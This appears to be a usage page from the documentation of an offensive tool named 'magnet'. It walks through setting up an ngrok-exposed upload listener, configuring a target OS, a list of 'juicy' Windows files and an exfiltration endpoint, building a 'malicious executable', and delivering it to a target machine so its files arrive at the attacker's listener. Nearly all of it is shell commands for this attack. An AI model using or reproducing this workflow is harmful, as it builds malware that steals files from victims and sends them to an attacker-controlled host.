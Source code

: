 # Example

Below is a complete example of `magnet` usage

## Pre-requisites
* [`gitar`](https://github.com/ariary/gitar) but you could use the HTTP server of your choice, as long as file upload is possible
* [`ngrok`](https://ngrok.com/)
* [`lobfuscator`](https://github.com/ariary/magnet/blob/main/README.md#build-lobfuscator)
* Clone `magnet` repository and go inside it

Our target run a windows device

## 1. Set up attacker listener

Using 
```shell
## Launch HTTP Upload server
gitar -e 127.0.0.1
## Expose the server using
ngrok http 9237 #copy ngrok endpoint
```

## 2. Set environment variables
```shell
TARGET_OS=windows
FILES=samples/windows_juicy_files.txt
ENDPOINT=[NGROK_HTTPS_ENDPOINT]/[GITAR_RANDOM_PATH]/push
KEY=thisismytestkey
```

## 3. Build malicious executable
```shell
./build.sh $TARGET_OS $FILES $ENDPOINT $KEY
#build magnet.exe
```

## 4. Watch the magic happen

Transfer the executable on windows machine and observe.

On gitar listener you should receive the files
